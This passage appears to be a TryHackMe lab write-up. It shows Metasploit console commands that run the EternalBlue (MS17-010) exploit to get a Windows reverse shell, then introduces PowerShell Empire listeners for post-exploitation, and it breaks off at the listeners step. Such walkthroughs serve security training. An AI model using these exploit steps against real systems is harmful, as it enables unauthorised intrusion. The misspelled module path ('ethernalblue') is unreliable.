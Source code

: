 # Empire
#pentest/tryhackme

￼
# Task 1: Eternal Blue (MS-017-010)
This machine is totally vulnerable to  [Ethernal Blue](https://en.wikipedia.org/wiki/EternalBlue) . For your information, eternal blue is a cyberattack exploit developed by the NSA. Somehow, the exploit is leaked by shadow brokers hacker from on 14 April 2017. What makes this exploit so special? Still, remember the Wannacry ransomware? Eternal Blue is responsible for the cause. I highly recommend you to take part in the  [blue room from tryhackme](https://tryhackme.com/room/blue)  before proceeding. 

From this point onward, I’m guessing you have the fundamental understanding of eternal Blue exploit. First and foremost, launch the Metasploit using the following command.

$ `msfconsole`

```
msf > use exploit/windows/smb/ms17_010_ethernalblue
msf > set RHOSTS <MACHINE IP>
msf > exploit
```

After a few seconds, you will be prompt with windows reverse shell.
￼
Hooray, you have successfully exploited the machine. What next? It is time for post-exploit phase.
# Task 2: Power Shell Empire
Powershell is a powerful post-exploit tool which us to perform a lot of functions such as information gather, situation awareness, privsec, troll exploit and etc. For your information, the majority of organization and end-users are a window-based system and this is where the PowerShell empire come in a handy way. Hence, Power shell empire is suitable to people like me who not familiar with the windows command line. You can visit the PowerShell empire official page by clicking  [this link](https://www.powershellempire.com/) .

# Task 3: PS Empire (Step 1: Listen)
Setting up listeners is a first mandatory step on PS empire. The listeners is a service used to catch any connection from Windows, Linux or OSX just like the Netcat. There are lots of listener module available on PS Empire.

### Task 3-1: The help menu
If you are not sure what to do after launching the PS empire, simply type ‘help’ on the console to trigger the help menu.
￼The ‘listeners’ is the command we looking for. Simply type the command on the console to enter the listeners mode.

```
Empire > listeners
```
